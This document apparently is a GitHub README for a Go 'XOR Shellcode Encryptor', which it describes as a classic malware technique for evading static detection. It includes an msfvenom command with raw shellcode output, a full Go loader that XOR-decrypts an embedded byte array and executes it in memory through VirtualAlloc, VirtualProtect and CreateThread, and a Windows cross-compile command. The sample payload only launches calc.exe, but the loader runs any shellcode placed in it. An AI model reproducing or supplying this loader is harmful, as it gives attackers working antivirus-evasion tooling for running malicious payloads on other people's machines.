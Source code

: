 # 🧩 XOR Shellcode Encryptor (Go)

---


## ✨ What It Does

- 📜 Takes raw shellcode (e.g., generated from msfvenom).

- 🔑 Applies a single-byte XOR key to each byte.

- 🔒 Produces an obfuscated byte array (harder for static detection).

- 🛠️ Outputs shellcode in a Go-friendly format → directly usable in loaders.

This is a classic malware technique: keep payloads encrypted at rest and decrypt them at runtime before execution.

## ⚡ How It Works

Input → Raw binary shellcode (e.g. from Metasploit).

Key → A static XOR key (0x85 in this case).

Processing → Loops through every byte, applying cipher[i] = clear[i] ^ key.

Output → Nicely formatted Go array ([]byte{...}) ready to drop into a loader.

---

## 🔨 Usage

1️⃣ Generate Shellcode (example: spawn calc.exe 🧮)

```bash
/opt/metasploit-framework/bin/msfvenom -p windows/x64/exec CMD="calc.exe" -f raw > clean-shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
kant@APPLEs-MacBook-Pro ~/e/shellcode> cat clean-shellcode.bin 
A?8?u?LLE9?u?XD?@$I?fA?H?P?HD?@ I??VH??A?4?H?M1?H1??A??
                       HD?@I?A??H?AXAX^YZAXAYAZH?? AR??XAYZH??W???]H?H??A?1?o??ջ?VA???????H??(<|
???u?GrojYA????calc.exe⏎    

```















---
---

## Decryptor

```go
package main

import (
	"fmt"
	"unsafe"

	"golang.org/x/sys/windows"
)

func main() {
	secretKey := byte(133)

	// Put encrypted byte from prepare here
	encryptedShellcode := []byte{121, 205, 6, 97, 117, 109, 69, 133, 133, 133, 196, 212, 196, 213, 215, 212, 211, 205, 180, 87, 224, 205, 14, 215, 229, 205, 14, 215, 157, 205, 14, 215, 165, 205, 14, 247, 213, 205, 138, 50, 207, 207, 200, 180, 76, 205, 180, 69, 41, 185, 228, 249, 135, 169, 165, 196, 68, 76, 136, 196, 132, 68, 103, 104, 215, 196, 212, 205, 14, 215, 165, 14, 199, 185, 205, 132, 85, 14, 5, 13, 133, 133, 133, 205, 0, 69, 241, 226, 205, 132, 85, 213, 14, 205, 157, 193, 14, 197, 165, 204, 132, 85, 102, 211, 205, 122, 76, 196, 14, 177, 13, 205, 132, 83, 200, 180, 76, 205, 180, 69, 41, 196, 68, 76, 136, 196, 132, 68, 189, 101, 240, 116, 201, 134, 201, 161, 141, 192, 188, 84, 240, 93, 221, 193, 14, 197, 161, 204, 132, 85, 227, 196, 14, 137, 205, 193, 14, 197, 153, 204, 132, 85, 196, 14, 129, 13, 205, 132, 85, 196, 221, 196, 221, 219, 220, 223, 196, 221, 196, 220, 196, 223, 205, 6, 105, 165, 196, 215, 122, 101, 221, 196, 220, 223, 205, 14, 151, 108, 210, 122, 122, 122, 216, 205, 63, 132, 133, 133, 133, 133, 133, 133, 133, 205, 8, 8, 132, 132, 133, 133, 196, 63, 180, 14, 234, 2, 122, 80, 62, 117, 48, 39, 211, 196, 63, 35, 16, 56, 24, 122, 80, 205, 6, 65, 173, 185, 131, 249, 143, 5, 126, 101, 240, 128, 62, 194, 150, 247, 234, 239, 133, 220, 196, 12, 95, 122, 80, 230, 228, 233, 230, 171, 224, 253, 224, 133}

	var clearShellcode []byte

	for i := 0; i < len(encryptedShellcode); i++ {
		clearShellcode = append(clearShellcode, encryptedShellcode[i]^secretKey)
	}

	// Allocating memory
	fmt.Println("Allocating Memory")
	pNewlyAllocatedMem, err := windows.VirtualAlloc(uintptr(0), uintptr(len(clearShellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if err != nil {
		fmt.Println("Failed to Allocate Memory")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	// Copying Shellcode
	fmt.Println("Copying Shellcode")
	destination := unsafe.Slice((*byte)(unsafe.Pointer(pNewlyAllocatedMem)), len(clearShellcode))
	copy(destination, clearShellcode)
	fmt.Println("Done ...")

	fmt.Println("Changing Protection")
	var oldprotect uint32
	windows.VirtualProtect(pNewlyAllocatedMem, uintptr(len(clearShellcode)), windows.PAGE_EXECUTE_READ, &oldprotect)
	if err != nil {
		fmt.Println("Failed to Change Protection")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	// Launching Thread
	fmt.Println("Launching thread")
	KERNEL32DLL := windows.NewLazyDLL("kernel32.dll")
	procCreateThread := KERNEL32DLL.NewProc("CreateThread")
	h, _, err := procCreateThread.Call(0, 0, pNewlyAllocatedMem, 0, 0, 0)
	if err != nil {
		fmt.Println("Failed to run thread")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	windows.WaitForSingleObject(windows.Handle(h), windows.INFINITE)
}

```

---

## Cross Compilation

```bash
kant@APPLEs-MacBook-Pro ~/e/loader> GOOS=windows GOARCH=amd64 go build -a -ldflags="-s -w" -trimpath exp/main.go
kant@APPLEs-MacBook-Pro ~/e/loader> ls
exp/      go.mod    go.sum    main.exe*
```

---
